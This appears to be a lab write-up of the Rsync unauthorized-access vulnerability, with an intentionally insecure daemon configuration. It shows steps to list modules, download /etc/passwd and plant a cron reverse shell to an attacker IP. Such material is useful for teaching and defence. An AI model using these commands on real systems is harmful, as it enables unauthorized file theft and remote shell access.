

# Unauthorized Access Vulnerability in Rsync

## Vulnerability Description

Rsync is a data backup tool in Linux that supports remote file transfer through the Rsync protocol and SSH protocol. It is often used for code distribution and synchronization updates within the intranet, so the user group is mostly developers. The Rsync protocol listens to port 873 by default, and in the case of developers with weak security awareness, if the target has enabled the Rsync service and has not configured ACL or access passwords, we can read and write files on the target server.

## Environment Setup

rsyncd.conf

```
uid = root
gid = root
use chroot = no
max connections = 4
syslog facility = local5
pid file = /var/run/rsyncd.pid
log file = /var/log/rsyncd.log

[src]
path = /
comment = src path
read only = no
```

Start rsync

```
rsync --no-detach --daemon --config /etc/rsyncd.conf
```


## Vulnerability Exploitation

After the environment is started, we access it using the rsync command:

```
[root@localhost tmp]# rsync rsync://192.168.32.183:873/
src            	src path

```

View `src` directory

```
[root@localhost tmp]# rsync rsync://192.168.32.183:873/
src            	src path
You have new mail in /var/spool/mail/root
[root@localhost tmp]# rsync rsync://192.168.32.183:873/src
drwxr-xr-x             28 2022/07/26 03:45:11 .
-rwxr-xr-x              0 2022/07/26 03:45:11 .dockerenv
-rwxr-xr-x            101 2022/05/19 09:45:03 docker-entrypoint.sh
drwxr-xr-x              6 2018/01/21 13:42:04 bin
drwxr-xr-x              6 2017/07/13 09:01:05 boot
drwxr-xr-x              6 2022/07/26 03:45:11 data
drwxr-xr-x            340 2022/07/26 03:45:11 dev
drwxr-xr-x             66 2022/07/26 03:45:11 etc
drwxr-xr-x              6 2017/07/13 09:01:05 home
drwxr-xr-x             21 2018/01/21 13:42:05 lib
drwxr-xr-x             34 2017/10/08 20:00:00 lib64
drwxr-xr-x              6 2017/10/08 20:00:00 media
drwxr-xr-x              6 2017/10/08 20:00:00 mnt
drwxr-xr-x              6 2017/10/08 20:00:00 opt
dr-xr-xr-x              0 2022/07/26 03:45:11 proc
drwx------             37 2017/10/08 20:00:00 root
drwxr-xr-x             80 2022/07/26 03:48:12 run
drwxr-xr-x          4,096 2017/10/08 20:00:00 sbin
drwxr-xr-x              6 2017/10/08 20:00:00 srv
dr-xr-xr-x              0 2022/07/25 22:41:55 sys
drwxrwxrwt              6 2022/07/26 03:44:41 tmp
drwxr-xr-x             42 2017/10/08 20:00:00 usr
drwxr-xr-x             17 2017/10/08 20:00:00 var

```

This is a Linux root directory, and we can download any file:

```
[root@localhost tmp]# rsync -av rsync://192.168.32.183:873/src/etc/passwd ./
receiving incremental file list
passwd

sent 43 bytes  received 1,283 bytes  2,652.00 bytes/sec
total size is 1,197  speedup is 0.90

```

Or write to a schedule:

```
echo '* * * * * bash -i >& /dev/tcp/192.168.32.130/9999 0>&1' >> shell
```

```
[root@localhost tmp]# rsync -av shell  rsync://192.168.32.183:873/src/etc/cron.d/root
sending incremental file list
shell

sent 146 bytes  received 35 bytes  362.00 bytes/sec
total size is 55  speedup is 0.30
```

